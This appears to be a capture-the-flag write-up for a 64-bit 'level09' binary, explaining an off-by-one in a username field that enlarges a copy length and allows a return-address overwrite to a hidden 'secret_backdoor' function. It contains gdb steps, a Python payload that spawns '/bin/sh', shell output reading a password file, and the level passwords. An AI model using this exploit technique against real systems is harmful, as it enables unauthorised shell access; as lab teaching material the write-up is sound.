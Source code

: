 # Level09 - 64 bits - Loop vulnerability

## Local script usage

Requirements:

- `gdb-peda`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level09/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level09 | `GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8` |
| end     | `j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE` |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

We can see a function `secret_backdoor` that is able to execute a given string. But this function is not called. We have to find a way to redirect the code.

The function used such as `fgets`, `strncpy` and `printf` are correctly used and not vulnerable.

But there is still a vulnerability: the function `set_username` fills 41 characters inside `msg.usr` instead 40 characters. As `msg` data are stored in a structure, data are contiguous. It means we are able to override the max length of the message. It is useful, because this length is used by `strncpy`. We are able to create an overflow.

First lets find the `secret_backdoor` address:

```shell
info function secret_backdoor
0x000055555555488c  secret_backdoor
```

Then, lets find the EIP address of the return of `handle_msg`

```shell
b*handle_msg+80 # before set_username
run
info frame
  Stack level 0, frame at 0x7fffffffe4e0: (...)
  rip at 0x7fffffffe4d8    # handle_msg return eip
```

And now, lets find the `msg` address, and calculate the offset with the EIP found

```shell
p $rbp-0xc0 # t_msg msg
  $1 = (void *) 0x7fffffffe410

p /d 0x7fffffffe4d8 - 0x7fffffffe410 # eip - msg
  $3 = 200 # offset
```

The offset is 200.

Our exploit will be something like:

```
USERNAME_INPUT: 'A' * 40 + (OFFSET + 8) # 8 bytes to write the x64 address
MESSAGE_INPUT:  'B' * OFFSET + SECRET_BACKDOOR_ADDRESS
BACKDOOR_INPUT: '/bin/sh'
```

Lets calculate the offset + 8 bytes in hexadecimal

```shell
p 200 + 8
  $2 = 0xd0
```

Perfect, we have everything we need

```shell
python -c "print 'A' * 40 + '\xd0'" > /tmp/exploit09
python -c "print 'B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00'" >> /tmp/exploit09
echo "/bin/sh" >> /tmp/exploit09

~/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: Msg @Unix-Dude
>>: >: Msg sent!

$ whoami
  end
$ cat /home/users/end/.pass
  j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

## Sources

### C

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strncpy](https://linux.die.net/man/3/strncpy)
- [Man system](https://linux.die.net/man/3/system)
